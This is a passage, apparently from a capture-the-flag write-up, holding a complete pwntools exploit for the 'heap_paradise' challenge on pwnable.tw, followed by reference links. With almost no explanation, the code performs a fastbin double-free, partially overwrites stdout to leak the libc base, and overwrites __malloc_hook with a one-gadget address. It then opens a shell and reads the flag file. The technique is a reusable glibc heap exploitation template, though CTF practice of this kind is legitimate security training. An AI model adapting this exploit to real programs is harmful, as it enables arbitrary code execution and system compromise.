 ## exp
```python
from pwn import *
def cmd(c):
	p.sendlineafter("ice:",str(c))
def add(size,data='A'):
	cmd(1)
	p.sendlineafter("Size :",str(size))
	p.sendafter("Data :",data)
def free(idx):
	cmd(2)	
	p.sendlineafter("Index :",str(idx))
p=process("./heap_paradise",env={"LD_PRELOAD":'./libc'})
#p=remote("chall.pwnable.tw",10308)
#context.log_level='debug'
add(0x68,p64(0x71)*12)#0
add(0x68,p64(0x71)*13)#1
add(0x68,p64(0x21)*13)#2
free(0)
free(1)
free(0)
add(0x68,'\x60')#3
add(0x68,'A')#4
add(0x68,'A')#5
add(0x68,p64(0xdeadbeef)+p64(0x91))#6

free(1)
add(0x68,'\xdd\x25')#7
free(0)
free(6)
free(0)
add(0x68,p64(0x71)*12+'\x70')#8
add(0x68,"A")#9
add(0x68,"A")#10
add(0x68,"\x00"*(0x43-0x10)+p64(0xfbad1800)+p64(0)*3+"\x00")#11

p.read(0x40)
base=u64(p.read(8))-(0x7ffff7dd2600-0x00007ffff7a0d000)+0x1000
free(0)
free(6)
free(0)
libc=ELF('./libc')
libc.address=base
add(0x68,p64(0x71)*12+p64(libc.symbols['__malloc_hook']-35))#12
add(0x68,"A")#13
add(0x68,"\x00"*19+p64(base+0xef6c4))
log.warning(hex(base))
cmd(1)
#p.sendline("0")
p.sendline("cat /home/heap_paradise/flag")
#gdb.attach(p,'x/8gx 0x000000000202040+0x0000555555554000')
p.interactive()
```


[1]: https://code.woboq.org/qt5/include/linux/prctl.h.html
[2]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[3]: https://blog.csdn.net/qq_19683651/article/details/61418292
[4]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[5]: https://n132.github.io/2019/02/11/Kidding/
[6]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[7]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[8]: https://n132.github.io/2019/02/23/mno2/
[9]: https://code.woboq.org/userspace/glibc/time/tzset.c.html#__tz_convert